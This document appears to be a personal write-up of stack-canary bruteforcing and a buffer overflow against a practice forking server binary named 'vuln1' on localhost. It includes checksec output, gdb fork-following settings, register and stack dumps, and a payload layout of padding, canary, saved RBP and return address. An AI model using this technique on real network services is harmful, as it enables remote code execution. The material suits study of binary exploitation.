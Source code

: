 # Server Fork with recv() - vuln1

fork without execve() child process = canary does not change </br>
recv() = no null terminator '\x00' which makes canary bruteforce possible
```
gef➤  checksec
[+] checksec for 'vuln1'
Canary                        : Yes →  value: 0x4635cf1eaee08a00
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
fork child process = canary does not change
recv() = no null terminator '\x00' which makes canary bruteforce possible

```
# nc 127.0.0.1 1337
Please enter the message you want to send to admin:
aaaaaaaaaaaaaaaaaaaaabbccc
Done.
```
'vuln1' uses libc.so.6 = libc leak, since the program returns after sending input
stripped = no symbol table, so no 'b main', use starti then set break point with ghidra reference
```
# file vuln1 
vuln1: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter 
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cc3b330cabc203d0d813e3114f1515b044a1fd4f,
 stripped

# ldd vuln1 
	linux-vdso.so.1 (0x00007ffc2df84000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd437426000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd437603000)

```

starti, then check canary
Need to set detach-on-fork, and follow-fork-mode in order to debug child process


```
gef >

starti
set detach-on-fork off
set follow-fork-mode child
b *0x00005555555555e2
canary
c
```
[https://vagmour.eu/persistence-1/](https://vagmour.eu/persistence-1/)
[]()
[]()

Send Payload (python3):
```
payload = b'a' * 0x34 + b'cccc' 
netcat( '127.0.0.1', 1337 , payload , i  , []  )
```

After sending payload:  (  Canary = 0x4769534786267b00 ) </br>
RBP =  0x00007fffffffe0e0
```
$rax   : 0x39              
$rbx   : 0x0               
$rcx   : 0x00007ffff7ef444d  →  0x6b77fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe0b8  →  0x0000555555555562  →   mov eax, DWORD PTR [rbp-0x14]
$rbp   : 0x00007fffffffe0e0  →  0x00007fffffffe140  →  0x00005555555555f0  →   push r15
$rsi   : 0x00007fffffffe070  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$rdi   : 0x4               
$rip   : 0x00005555555555e2  →   ret 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x0000555555555180  →   xor ebp, ebp
$r13   : 0x00007fffffffe220  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 

gef➤  x/20gx $rsi
0x7fffffffe070:	0x6161616161616161	0x6161616161616161
0x7fffffffe080:	0x6161616161616161	0x6161616161616161
0x7fffffffe090:	0x6161616161616161	0x6161616161616161
0x7fffffffe0a0:	0x6363636361616161	0x4769534786267b00
0x7fffffffe0b0:	0x00007fffffffe0e0	0x0000555555555562
0x7fffffffe0c0:	0x0000000000000002	0x0000000400000000
0x7fffffffe0d0:	0x0000000000000000	0x4769534786267b00
0x7fffffffe0e0:	0x00007fffffffe140	0x00005555555554cf
0x7fffffffe0f0:	0x00007fffffffe228	0x00000001f7e9d745
0x7fffffffe100:	0x0000000000000000	0x0000053900000010

```
![$rsi](stack1.jpg)

so payload = 

```
payload = b'a' * 0x34 + b'cccc' + CANARY + RBP + RETURN
```